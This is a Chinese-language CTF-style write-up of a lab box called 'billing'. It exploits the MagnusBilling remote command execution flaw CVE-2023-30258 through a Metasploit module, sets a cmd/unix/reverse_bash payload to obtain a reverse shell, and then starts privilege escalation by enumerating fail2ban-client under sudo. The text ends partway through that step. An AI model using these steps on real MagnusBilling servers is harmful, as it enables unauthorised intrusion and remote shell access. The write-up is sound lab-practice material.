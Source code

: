 ```yaml
---
icon: pen-to-square
date: 2025-03-26
tags: 
title: billing
category:
  - 项目
---
```

## 1. 前言
本题运用了简单的[CVE-2023-30258](https://eldstal.se/advisories/230327-magnusbilling.html)漏洞，这是一个简单的远程命令执行漏洞
## 2. 复现步骤
### 反弹shell
这个漏洞已经在msf中收录了
`msfconsole`

![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326110410.png)

```bash
use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
```
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326110506.png)

```bash
show targets
```

![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326110536.png)

```bash
set PAYLOAD cmd/unix/reverse_bash
```
设置payload，然后设置Rhost Rport Lhost以及Lport
设置好监听接口以及payload之后，msf会自动接收反向shell
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326112352.png)

### 提权
查看当前进程
```
ps -aux | grep fail
```
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326112734.png)

**fail2ban-client** 是一个命令行界面，它允许我们与 **fail2ban-server** 进行交互、配置和控制。简单说明一下，**fail2ban** 是一种安全工具，可以监控日志文件中的可疑活动（例如重复失败的登录尝试），并通过更新防火墙规则来禁止违规的 IP 地址。
```
sudo /usr/bin/fail2ban-client status
```
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326113233.png)
有 8 个活动的 jail
`Jails`基本上是定义要监控的日志、要查找的模式以及匹配模式时要采取的作的配置。
